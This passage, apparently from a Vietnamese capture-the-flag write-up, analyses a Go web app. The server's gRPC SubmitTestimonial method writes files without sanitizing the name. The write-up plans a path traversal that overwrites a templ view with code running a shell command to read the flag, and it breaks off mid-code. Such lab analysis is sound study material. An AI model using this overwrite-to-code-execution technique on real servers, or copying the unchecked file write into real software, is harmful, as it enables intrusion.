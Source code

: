 
Khi submit một note mới, 2 params được truyền vào là `customer` và `testimonial`. Với `customer` là tên file được lưu vào `public/testimonials/` và `testimonial` là nội dung file.
```javascript 
func HandleHomeIndex(w http.ResponseWriter, r *http.Request) error {
    customer := r.URL.Query().Get("customer")
    testimonial := r.URL.Query().Get("testimonial")
    
    ...

    if err := c.SendTestimonial(customer, testimonial); err != nil {
        http.Error(w, err.Error(), http.StatusInternalServerError)
	}
    }
    ...
}
```
Hai param được truyền vào hàm `SendTestimonial`. Thông qua hàm này, tên file đã bị filter và loại bỏ tất cả các kí tự có hại
--> Không thể pathtraversal để ghi đè file được. 
```javascript 
func (c *Client) SendTestimonial(customer, testimonial string) error {
    ...
    for _, char := range []string{"/", "\\", ":", "*", "?", "\"", "<", ">", "|", "."} {
        customer = strings.ReplaceAll(customer, char, "")
    }

    _, err := c.SubmitTestimonial(ctx, &pb.TestimonialSubmission{Customer: customer, Testimonial: testimonial})
    ...
}
```

Tuy nhiên, đó chỉ là những đoạn code để xử lý ở phía client. Đoạn code xử lý chính của server với gRPC lại không có bất kì biện pháp phòng chống nào.
```javascript 
func (s *server) SubmitTestimonial(ctx context.Context, req *pb.TestimonialSubmission) (*pb.GenericReply, error) {
    ...
    err := os.WriteFile(fmt.Sprintf("public/testimonials/%s", req.Customer), []byte(req.Testimonial), 0644)
    ...
}
```
Có thể thấy, code format `req.Customer` và write file mà không hề kiểm tra các kí tự xấu. Nếu ta có thể gọi thẳng đến gRPC server mà không cần thông qua các bước xử lý rườm rà thì có thể write file mới, hay ghi đè file cũ một cách dễ dàng.

Như vậy, hướng đi là tạo một gRPC client mới, connect đến gRPC server và SubmitTestimonial, ghi đè file `view/home/index.templ`, khi file bị thay đổi, app cũng sẽ reload để cập nhật nội dụng mới của file.

Tạo file `index.tmpl` mới thay thế cho nội dung file cũ để đọc flag 
:::details index.tmpl
```templ 
package home

import (
    "fmt"
    "os/exec"
)

func getFlag() string {
    cmd := exec.Command("/bin/sh", "-c", "cat /flag*.txt")
    out, err := cmd.Output()
    if err != nil {
        return "Error"
```